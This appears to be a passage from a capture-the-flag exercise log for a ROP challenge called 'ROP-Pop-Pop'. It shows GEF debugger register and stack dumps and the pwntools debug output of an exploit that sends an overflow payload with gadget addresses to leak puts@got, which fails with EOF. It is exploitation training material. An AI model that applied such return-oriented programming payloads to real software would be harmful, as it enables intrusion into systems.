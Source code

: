 ```
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
$rip   : 0x00000000004006b4  →  <__libc_csu_init+100> ret 
$r8    : 0x00000000006022e9  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x1000            
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdeb8  →  0x00007fffffffe248  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

stack ────
0x00007fffffffddb0│+0x0000: 0x00000000004004c0  →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>     ← $rsp
0x00007fffffffddb8│+0x0008: 0x00007fffffffde00  →  0x0000000000000000
0x00007fffffffddc0│+0x0010: 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"

code:x86:64 ────
     0x4006ae <__libc_csu_init+94> pop    r13
     0x4006b0 <__libc_csu_init+96> pop    r14
     0x4006b2 <__libc_csu_init+98> pop    r15
●→   0x4006b4 <__libc_csu_init+100> ret    
   ↳    0x4004c0 <puts@plt+0>     jmp    QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
        0x4004c6 <puts@plt+6>     push   0x0
        0x4004cb <puts@plt+11>    jmp    0x4004b0

gef➤  $ x/i 0x4004b0
   0x4004b0:    push   QWORD PTR [rip+0x200b52]        # 0x601008
gef➤  $ x/2x 0x601008
0x601008:    0xf7ffe2d0    0x00007fff
```



Looks like it is recieving a new line:
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
[+] Starting local process './rop': pid 129568
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_2.py:86: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
[DEBUG] Received 0x36 bytes:
    b'Can you pop shell? I took away all the useful tools..\n'
0x4004c0
0x601018
[DEBUG] Sent 0x49 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  a9 04 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  b3 06 40 00  00 00 00 00  18 10 60 00  00 00 00 00  │··@·│····│··`·│····│
    00000040  c0 04 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000049
[*] Switching to interactive mode

[DEBUG] Received 0x1 bytes:
    b'\n'

[*] Got EOF while reading in interactive

```
